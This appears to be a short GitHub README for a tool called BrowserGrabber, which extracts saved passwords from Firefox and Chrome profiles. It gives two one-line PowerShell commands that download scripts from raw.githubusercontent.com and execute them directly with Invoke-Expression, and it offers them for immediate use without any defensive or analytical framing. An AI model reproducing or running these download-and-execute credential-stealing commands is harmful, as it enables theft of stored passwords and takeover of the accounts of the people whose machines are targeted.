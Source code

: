 # FirefoxCredentials
One file script to extract passwords from firefox profiles

Quick command: powershell -c "(Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-FirefoxPasswords.ps1 -UseBasicParsing).Content | IEX"

Source: https://github.com/techchrism/firefox-password-decrypt/

Note: Does not work on Powershell 7 and after


# ChromeCredentials
One file script to extract passwords from Chrome

Quick command: powershell -c "(Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-ChromePasswords.ps1 -UseBasicParsing).Content | IEX"

Source: https://github.com/thisismyrobot/chrome-decrypt.ps1
